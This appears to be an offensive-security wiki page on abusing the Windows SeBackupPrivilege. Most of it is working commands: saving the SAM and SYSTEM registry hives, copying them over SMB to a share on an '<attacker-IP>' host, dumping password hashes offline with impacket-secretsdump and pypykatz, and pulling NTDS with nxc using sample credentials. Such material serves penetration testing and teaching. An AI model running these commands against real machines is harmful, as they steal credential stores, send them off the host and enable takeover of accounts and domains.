 # SeBackupPrivilege

A Windows privilege that allows **bypassing standard ACL checks** to read files and registry hives during backup operations. Assigned by default to `Administrators`, [`Backup Operators`](../groups/backup-operators.md), and `Server Operators` but **disabled in user tokens by default**.&#x20;

Backup-aware tools (e.g., `reg.exe`, `robocopy`, `ntbackup`) explicitly enable this privilege at runtime to access protected objects regardless of ACLs.

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

{% tabs %}
{% tab title="Dump" %}
Move to a [writeable directory](../../infra/os/windows/host-recon.md#writable-directories) and copy the hives:

```powershell
# Move to a writeable directory
cd c:\windows\temp

# Copy the SAM and SYSTEM hives
reg save hklm\sam c:\windows\temp\sam
reg save hklm\system c:\windows\temp\system
```

Transfer the hives to the attacking host (preferrable via SMB and not WinRM):

```bash
# Start an SMB server
sudo impacket-smbserver share -smb2support / -user test -password test
```

Connect and copy the hives:

```powershell
# Connect to the share
net use z: \\<attacker-IP>\share /user:test test

# Copy the hives
copy sam z:\
copy system z:\
```

Dump the creds on the attacking host:

```bash
# Dump creds with impacket
impacket-secretsdump -sam sam -system system LOCAL

# Dump creds with pypykatz
pypykatz registry --sam sam system
```
{% endtab %}

{% tab title="nxc" %}
If the credentials of the `Backup Operators`'s member are available:

```bash
nxc smb 192.168.210.16 -u administrator -p Password123! --ntds vss
```
{% endtab %}
{% endtabs %}
